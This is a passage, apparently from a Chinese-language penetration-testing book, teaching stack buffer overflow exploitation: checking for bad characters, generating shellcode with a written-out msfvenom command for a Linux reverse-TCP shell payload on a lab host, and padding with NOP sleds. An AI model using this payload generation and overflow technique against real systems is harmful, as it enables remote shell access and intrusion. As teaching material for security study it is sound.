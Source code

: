 图 10.10 – 概念验证：shellcode 不包含坏字符

你可能会想，是否可以在线查找坏字符。这将帮助你发现一些常见的恶性字符，比如`\x00`。然而，这在不同系统之间可能会有所不同。不管怎样，这个过程是有价值的，因为你正在获得与目标的经验和熟悉度。

## 使用 msfvenom 生成 shellcode

现在我们知道了哪些字符会破坏我们的 shellcode，我们可以发出我们的`msfvenom`命令来抓取一个载荷，如下所示：

# msfvenom --payload linux/x86/shell/reverse_tcp LHOST=127.0.0.1 LPORT=45678 --format py --bad-chars '\x00\x09\x0a\x20\xff'

你如何处理输出完全取决于你。你可以将其转储到一个 Python 脚本中，并在运行易受攻击的程序时作为参数调用。在以下例子中，我们将它直接转储到一个简单命令中以便操作：

![图 10.11 – 使用 Python 将缓冲区填充上 shellcode](img/Figure_10.11_B17616.jpg)

图 10.11 – 使用 Python 将缓冲区填充上 shellcode

在这里我们看到一个*概念验证*——所有这些垃圾数据都是经过清理的有效负载，返回内存覆盖被附加在末尾。这证明了代码没有崩溃，因为你可以看到在定义的位置发生了段错误**无法访问内存**。如果代码实际上能够正常工作，并且我们将内存地址指向一个能够将执行流带到 shellcode 顶部的位置，那么我们就成功了。然而，还有一个难题，那就是准确地指向内存中 shellcode 所在的位置，这个问题难度大得出乎意料。你注意到 shellcode 前面的填充了吗？它是 150 字节的`\x90`；不同于字母 *z*，这并不是随意的。

## 戴上手套，我们要去玩 NOP 滑道了

处理器并不总是需要工作。毕竟，我们都需要休息一下。处理器总是按照指令执行，恰好我们可以告诉它*不*做任何事情。如果我们告诉处理器执行无操作，这条指令就叫做`NOP`。为了了解这如何帮助我们，让我们来看一下下面的堆栈结构：
